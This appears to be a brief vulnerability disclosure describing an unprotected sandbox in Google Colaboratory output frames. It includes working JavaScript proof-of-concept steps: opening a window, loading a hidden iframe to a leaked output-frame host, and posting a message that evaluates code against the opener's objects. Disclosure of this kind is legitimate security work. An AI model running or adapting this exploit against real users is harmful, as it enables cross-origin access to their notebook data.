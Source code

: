 ```yaml
---
title: Insecure sandbox implementation on Colaboratory outputframes (Not Fixed)
---
```

Google Colaboratory puts some output such as visualizations into a sandbox however it has no embedding protection such as csp frame-ancestors so the origin is exposed to attackers.
Attackers with local network access, Im aware its a boring bug.

```js
let w = open('about:blank');
```

On about:blank
```js
opener.location = 'https://colab.research.google.com/';
```

Leak ID from unencrypted DNS then do
```js
let IDfromDNS = 'blah';
let f = document.createElement('iframe');
f.hidden = true;
f.src = 'https://'+IDfromDNS+'-0-colab.googleusercontent.com/outputframe.html';
document.body.appendChild(f);
setTimeout(_ => { f.contentWindow.postMessage({sandboxed_iframe_evaluation: 'console.log(parent.opener[0].google)'}, '*'); }, 100);
```

On the "Welcome to Colaboratory" project using the sandbox on attacker.
```parent.opener[0].google``` refers to stuff.
```parent.opener[5].document``` refers to the chart.

